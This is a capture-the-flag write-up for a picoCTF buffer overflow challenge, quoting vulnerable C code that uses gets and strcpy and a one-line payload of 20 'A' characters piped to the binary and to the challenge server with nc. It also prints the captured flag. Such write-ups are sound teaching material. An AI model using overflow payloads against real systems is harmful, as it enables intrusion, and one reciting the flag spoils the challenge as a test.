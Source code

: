 ### Current progress: Done

An unstripped ELF 32-bit executable and its c source code was given.

As the challenge name suggest, this is likely a buffer overflow problem.

The point of focus in our c code is this `vuln` function:
```
void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}
```

and part of the `main` function:
```
char buf1[100];
gets(buf1); 
vuln(buf1);
```

Copying an array of 100 characters into one that's 16 characters is not a good idea.
In fact, one should never use `strcpy` and should use `strnpy` instead.
Here is a [YouTube video](https://youtu.be/7mKfWrNQcj0) by Jacob Sorber explains why not to ever use `strcpy`.

We `chmod +x vuln` and then printing "A"  `python -c 'print("A" * 20)' | ./vuln` which gives us our test `flag.txt`

Digging deeper with `objdump -t`. I think that it is because the buffer overflows from the `completed.7623` shown here:
![objdump](objdump.jpg)
However, I'm not a 100% sure if this is the correct assumption. 
**(Please see my edited section after this. It seems like I misunderstood this)**

### Edited on Explanation
It seems like I was wrong. I overthinked it. The flag is always given when the program received a segfaults:
```
void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);
  exit(1);
}
```
and here's where they attached `sigsegv_handler` to the `SIGSEGV` (segfault):
```
signal(SIGSEGV, sigsegv_handler); // Set up signal handler
```

Anyway, we can adapt the code to be piped into netcat as follow:
`python -c 'print("A" * 20)' | nc saturn.picoctf.net [port]`

This gives use the flag: `picoCTF{ov3rfl0ws_ar3nt_that_bad_ee2fd2b1}`